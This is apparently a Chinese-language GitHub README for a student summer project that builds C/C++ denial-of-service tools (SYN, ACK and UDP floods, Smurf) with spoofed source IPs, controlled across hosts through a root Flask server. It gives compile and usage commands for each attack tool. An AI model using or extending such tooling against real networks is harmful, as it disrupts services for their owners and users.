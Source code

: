 # 111暑假專案

## Requirements

* 要做出三種不同的DoS攻擊
* 能夠有介面控制不同Host進行攻擊和停止
* DoS程式使用 C C++ 撰寫
* 能夠random source IP

## 構想
使用client-server的架構，在遠端電腦建立flask server，透過request並傳送所需參數完成攻擊和停止指令

## UML
[UML diagram](https://drive.google.com/file/d/1Wl6fYA4naVCfMY4u6Kba2XZunE7Qp2Mz/view?usp=sharing)

![](https://i.imgur.com/7OS6bR3.png)

`Use Case Diagram`

![](https://i.imgur.com/syvTlwX.png)

`Activity Diagram`

![](https://i.imgur.com/FmO4ETZ.png)
`Sequence Diagram`


## 環境
* python 3.5 up

## 攻擊種類
* SYN Flood
* ACK Flood
* UDP Flood
* Smurf

---
# 架設方法
## Server 端
:::danger
 使用root架flask server
:::
```shell=
# cd 111-Dos-project/python/
# python3 server.py

* Running on http://<IP>:9999 (Press CTRL+C to quit)
```

## Client 端




---
## 工具使用方法
### compile
```
$ ./compile.sh
```

### tcp_flood_attack
```
$ sudo ./tcp_attack <IPaddress> <port> <mode>
```

### udp_flood_attack
```
$ sudo ./udp_attack <IPaddress> <port>
```
### smurf_attack

```
$ gcc smurf.c -o tools/smurf_attack
$ sudo ./smurf_attack 192.168.200.55 192.168.200.255

The first ip is attacked address, second is the local area network.
```
